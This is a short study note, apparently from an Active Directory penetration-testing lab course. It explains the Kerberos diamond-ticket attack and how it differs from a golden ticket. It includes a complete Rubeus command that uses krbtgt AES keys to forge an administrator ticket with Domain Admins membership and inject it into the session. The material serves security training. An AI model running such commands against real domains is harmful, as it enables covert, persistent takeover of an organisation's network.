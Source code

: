 A diamond ticket is created by decrypting a valid TGT, making changes to
it and re-encrypt it using the AES keys of the krbtgt account. **This is a ticket repackaging attack**

Once again, the persistence lifetime depends on krbtgt account.
A diamond ticket is more **OPSEC** safe as it has a valid ticket times because a TGT issued by the DC is modified

Golden ticket was a **TGT forging attack** whereas diamond ticket is a TGT
modification attack

We would still need `krbtgt` AES keys to create a diamond ticket like so. Note that RC4 or AES keys of the user can be used
too):
```powershell
Rubeus.exe diamond
/krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


![[Pasted image 20250510210937.png]]